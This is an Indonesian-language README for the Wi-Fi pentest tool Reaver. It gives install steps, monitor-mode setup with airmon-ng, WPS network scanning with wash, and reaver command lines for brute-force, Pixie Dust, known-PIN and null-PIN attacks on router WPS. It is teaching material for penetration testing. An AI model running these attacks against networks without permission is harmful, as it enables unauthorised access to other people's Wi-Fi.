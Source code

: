 # Reaver

![Reaver](https://github.com/fixploit03/Pentest-WiFi/blob/main/tools/reaver/img/reaver.jpg)

## Instalasi

Kali Linux:

1. Menggunakan package manager (`apt`):

   ```
   sudo apt-get update
   sudo apt install reaver aircrack-ng pixiewps
   ```

2. Melalui compile dari source:
   
   ```
   sudo apt-get update
   sudo apt-get install build-essential libpcap-dev git
   git clone https://github.com/t6x/reaver-wps-fork-t6x
   cd reaver-wps-fork-t6x
   make
   sudo make install
   ```

## Setup Adapter Wi-Fi

1. Pasang adapter Wi-Fi ke laptop/PC.
2. Pada aplikasi VirtualBox klik tab `Devices` -> `USB` -> `Jenis/merek`.
3. Pastikan checkbox nya sudah tercentang.
4. Buka terminal.
5. Ketikkan `iwconfig`, pastikan nama interface `wlan0` muncul.
6. Kalau sudah muncul, aktifkan mode monitor menggunakan:

   ```
   sudo airmon-ng check kill
   sudo airmon-ng start wlan0
   ```
7. Cek kembali menggunakan `iwconfig` apakah mode interfacenya sudah berubah menjadi mode `Monitor`.
8. Cek packet injection menggunakan:

   ```
   sudo aireplay-ng --test wlan0
   ```
   
## Penggunaan

**1. Scan Wi-Fi WPS:**

```
sudo wash -i [interface]
```

**2. Pilih Target**

Pastikan status `Lck` (Lock) tidak menunjukkan `YES`. Jika `YES`, artinya fitur WPS sedang terkunci (tidak bisa diserang).

**3. Jalankan Serangan:**

1. Brute Force PIN Attack:

   ```
   sudo reaver -i [interface] -b [bssid] -c [channel] -vv
   ```
2. Pixie Dust Attack:

   ```
   sudo reaver -i [interface] -b [bssid] -c [channel] -K -vv
   ```
3. Known PIN Attack:

   ```
   sudo reaver -i [interface] -b [bssid] -c [channel] -p [pin_wps] -vv
   ```
4. Null PIN Attack:

   ```
   sudo reaver -i [interface] -b [bssid] -c [channel] -p "" -vv
   ```

## Video Demonstrasi

https://youtu.be/ftriFQwsiNU?si=Ku-meK7gUpv-RXut
